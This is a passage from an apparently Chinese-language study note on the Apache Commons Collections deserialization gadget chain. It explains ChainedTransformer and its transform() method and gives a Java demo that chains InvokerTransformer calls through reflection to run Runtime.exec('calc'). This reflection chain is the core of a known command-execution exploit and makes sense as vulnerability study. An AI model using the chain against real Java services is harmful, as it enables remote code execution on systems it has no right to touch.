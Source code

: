 #### 构造方法 ChainedTransformer()

通过构造函数获取数组transformers，然后调用transform函数，该函数会循环获取数组transformers中的值，通过调用transform来实现真正的反射调用。

#### 成员方法 transform()

该成员方法实现了Transformer的链式调用



链式调用+反射=命令执行

> ```java
> public class Demo {
>  public static void main(String[] args) {
>      Transformer[] transformers = new Transformer[]{
>              new ConstantTransformer(Runtime.class),
>              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
>              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
>              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
>      };
>      Transformer transformedChain = new ChainedTransformer(transformers); 
>      transformedChain.transform(null); 
>  }
> }
> 
> ```
>
> > ![image-20211108024011763](source-analysis.assets/image-20211108024011763.png)

